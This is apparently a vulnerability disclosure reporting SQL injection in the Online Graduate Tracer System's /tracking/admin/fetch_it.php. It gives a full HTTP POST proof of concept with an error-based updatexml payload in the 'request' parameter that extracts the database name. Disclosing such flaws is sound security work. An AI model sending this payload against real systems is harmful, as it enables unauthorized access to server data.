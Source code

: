 ## Online Graduate Tracer System has sql injection vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php/15904/online-graduate-tracer-system-college-ict-alumni.html

## Vulnerability file
/tracking/admin/fetch_it.php

## Vulnerability analysis
<img width="1095" alt="image" src="https://github.com/user-attachments/assets/6d56b6c7-ca31-4ca0-8d92-d7079a84b600">

## describe
There is an unrestricted SQL injection attack in the Online Graduate Tracer System, and the controllable parameter is request. An attacker can obtain sensitive server information through this vulnerability.

POC
```
POST /tracking/admin/fetch_it.php?http:%2f%2flocalhost%2ftracking%2fadmin%2ffetch_it.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: http://localhost
Connection: close
Referer: http://localhost/tracking/admin/fetch_it.php?http:%2f%2flocalhost%2ftracking%2fadmin%2ffetch_it.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Pragma: no-cache
Cache-Control: no-cache

request=1%27+and+updatexml%281%2Cconcat%280x7e%2C%28database%28%29%29%29%2C3%29--+q
```
<img width="1261" alt="image" src="https://github.com/user-attachments/assets/d556f6f8-a4ef-4378-87a2-b18f66e56720">







